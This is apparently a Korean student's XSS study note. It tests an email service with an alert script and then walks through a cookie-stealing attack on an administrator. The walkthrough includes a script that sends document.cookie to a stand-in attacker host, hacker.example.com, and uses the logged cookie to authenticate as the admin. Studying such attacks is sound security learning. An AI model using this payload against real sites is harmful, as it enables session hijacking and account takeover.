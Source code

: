 

**1.  이메일 서비스에 XSS 취약점 존재 테스트**

```pseudocode
-> 이메일 편지쓰기 기능으로 <script>alert('XSS!');</script>라는 alert창 띄우는 스크립트 전송
```

![image](https://user-images.githubusercontent.com/79195793/126024246-8a74228f-a722-4097-b78e-b8ea9754ed61.png)
![image](https://user-images.githubusercontent.com/79195793/126024412-aea8abcc-4ab6-4f0e-8b88-e9ab5ed08e67.png)
->여기도 실제로 내 블로그에서 실행됨..!신기



**2. 쿠키 훔치기**

1. 해커 서버의 log 파라미터에 쿠키값을 담아 이동

```html
<script>
window.location = "http://hacker.example.com/xss.php?log=" + document.cookie
</script>
```

​	-> **xss.php파일에 log 파라미터로 쿠키값 전달 & PHP 스크립트는 쿠키값을 받아 파일로 저장**



2. 관리자에게 악성 스크립트 전송

   ![image](https://user-images.githubusercontent.com/79195793/126024250-4485ffe7-4652-4959-9c3c-1a40e87e577c.png)



3. 관리자가 이메일 체크

   ![image](https://user-images.githubusercontent.com/79195793/126024257-88d72e18-68db-4a6c-a0bc-e67094eb596c.png)



4. 이메일 확인시 스크립트에 의해 해커 서버로 쿠키 정보 이동

   ![image](https://user-images.githubusercontent.com/79195793/126024255-af80c60a-395f-4244-9a43-f679194a702e.png)



5. 해커 서버에 log.txt에 남은 쿠키 정보 기록

   ![image](https://user-images.githubusercontent.com/79195793/126024260-a99ad937-a381-48b3-a0fb-c32e1a365d29.png)



6. 쿠키 정보로 관리자 인증



## 2.6.3 크로스 사이트 스크립팅으로 가능한 것들

![image](https://user-images.githubusercontent.com/79195793/126024263-4b73a3f1-7788-4f67-b1fd-f7ff5841f23b.png)



## 2.6.4 사이트 간 요청 위조 공격
